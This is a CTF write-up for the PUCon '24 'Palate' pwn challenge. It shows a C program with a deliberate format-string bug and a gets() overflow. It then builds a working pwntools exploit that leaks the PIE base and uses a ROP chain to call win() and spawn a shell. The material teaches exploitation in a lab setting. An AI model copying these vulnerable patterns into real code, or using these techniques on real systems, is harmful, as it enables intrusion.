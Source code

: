 ```yaml
---
title: PUCon' 24 - Userspace - Palate
date: '2024-2-17'
tags: ['pucon', 'userspace', 'ctf', 'pwn', 'pie-bypass', 'printf-leak', 'ret2win']
draft: false
summary: Utilizing Format String Vulnerability to leak the address of PIE and then a simple Ret2Win with args.
---
```


## Challenge Description

![alt text](/static/writeups/pucon24/image-25.png)

## Solution

The challenge was very simple and I managed to solve it in under 10 minutes (and also 🩸). In this challenge, we were provided with the source code i.e.:

```c:ret2win_pie.c
#include<stdio.h>
#include<stdlib.h>

// gcc ret2win_pie.c -o ret2win_pie -fno-stack-protector

__attribute__((constructor))
void ignore_me(){
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);
	setbuf(stderr, NULL);
}

void win(long arg1){
	char *cmd = "/bin/sh";

	if (arg1 == 0xdeadbeefcafebabe){
		puts("Congrats!!!");
		execve(cmd, NULL, NULL);
	}

	else
		puts("Forgot ROP. That's sad :<");
}

int main(int argc, char **argv, char **environ){
	char shot[0x60];

	puts("Aim and hit the bull's eye");
	fgets(shot, sizeof(shot), stdin);
	printf(shot);

	puts("Sad you missed it. Try one more time");
	gets(shot);
}
```

Okay, so, `(thankfully)`, the challenge was not one-shot as I am VERY VERY bad with format strings. We are given a fsb, that we can use to leak the addresses from the stack and then, a simple `gets` buffer overflow to jump to `win`, whilst also providing the argument i.e. `0xdeadbeefcafebabe`.

## Leaking the PIE-base

The exploit was fairly simple. When messing around format strings, I wrote a simple cli tool in python and made a function that I very often use that generates format string patterns for me. You can find the script on this [link](https://gist.github.com/TheFlash2k/2ee4650c3fc850caceb558ef82fa9bd6) (do leave a star if you like it ;))

So, the exploit for this part was fairly, simple.

```py:exploit.py
#!/usr/bin/env python3
# Author: @TheFlash2k

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()

def create_fmt(start: int, end: int = 0, atleast: int = 10, max_len: int = -1, with_index: bool = False, specifier: str = "p", seperator: str = '|') -> bytes:
    end = start+atleast if end == 0 else end
    fmt = "{seperator}%{i}${specifier}" if not with_index else "{seperator}{i}=%{i}${specifier}"
    rt = ""
    for i in range(start, end+1): rt += fmt.format(i=i, specifier=specifier, seperator=seperator)
    if max_len <= 0: return rt.encode()
    rt = seperator.join(rt[:max_len].split(seperator)[:-1]) if rt[:max_len][-1] != specifier else rt[:max_len]
    return rt.encode()

exe = "./ret2win_pie"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")


fmt = create_fmt(1, 30, with_index=True)
io.sendlineafter(b"eye", fmt)

io.interactive()
```

Now, on running this exploit:

![alt text](/static/writeups/pucon24/image-26.png)

We passed in `30`, but the stdout only printed `uptil` 12. Let's attach GDB, and see what exactly is memory mapping as we need a `PIE` leak.

![alt text](/static/writeups/pucon24/image-27.png)

Now, what we need is a leak that corresponds to PIE, i.e. `0x56xxxxxxxx`, so. Let's change the function call:

```diff
- fmt = create_fmt(1, 30, with_index=True)
+ fmt = create_fmt(13, 22, with_index=True)
```

![alt text](/static/writeups/pucon24/image-28.png)

Let's increase this:

```diff
- fmt = create_fmt(13, 22, with_index=True)
+ fmt = create_fmt(23, 30, with_index=True)
```

![alt text](/static/writeups/pucon24/image-29.png)

Now, looking at these addresses, we can see that, the address at `27th` position corresponds to what looks like `PIE` leak. Let's see this address in GDB.

![alt text](/static/writeups/pucon24/image-30.png)

This address corresponds to the beginning of the main function.

> _NOTE_: During the compeition, I was using my laptop that had the latest version of Arch with latest libc, for this tutorial, I am using Ubuntu 20.04, and the server was also using the latest ubuntu version, so, on my laptop the offset I got was `25` and that syncronized with the remote instance. The leak was for `main` so that was constant, so; instead of `27`, I will be using `25` as my offset in all of my payloads.

So, now, we have a pie-leak. Let's align our elf as well so we can use pwntools' power easily:

```py:exploit.py
fmt = b"|%25$p|"
io.sendlineafter(b"eye\n", fmt)
main_leak = int(io.recvline().split(b'|')[1], 16)
elf.address = main_leak - elf.sym.main
info("pie @ %#x" % elf.address)
io.interactive()
```

## Finding the offset

Well, we've done this thousands of time, so, i'll just skim through this, pass random data to the first input, send cyclic pattern to the second input and check the offset:

![alt text](/static/writeups/pucon24/image-31.png)

The offset came out to be `104`. So, let's note it down.

## Ret2Win

Now, I firstly thought of just jumping past the `arg1 == 0xdeadbeefcafebabe` check however, the `cmd` was declared before this meaning, even if I could jump, I wouldn't be able to have the correct argument in the rdi register to be passed to the `execve` syscall. So, the payload for this was simple. I used `ROP` from pwntools

```py:exploit.py
rop = ROP(elf)
payload = flat(
    cyclic(104),
    rop.rdi.address,
    0xdeadbeefcafebabe,
    rop.ret.address,
    elf.sym.win
)
io.sendlineafter(b"time\n", payload)
```

Running this, I got the shell.

![alt text](/static/writeups/pucon24/image-33.png)

Final exploit that I used was:

```py:exploit.py
#!/usr/bin/env python3
# Author: @TheFlash2k

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()

exe = "./ret2win_pie"
elf = context.binary = ELF(exe)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")

fmt = b"|%25$p|"
io.sendlineafter(b"eye\n", fmt)
main_leak = int(io.recvline().split(b'|')[1], 16)
elf.address = main_leak - elf.sym.main
info("pie @ %#x" % elf.address)

rop = ROP(elf)
payload = flat(
    cyclic(104),
    rop.rdi.address,
    0xdeadbeefcafebabe,
    rop.ret.address,
    elf.sym.win
)
io.sendlineafter(b"time\n", payload)

io.interactive()
```

Running this exploit against remote:

![alt text](/static/writeups/pucon24/image-34.png)
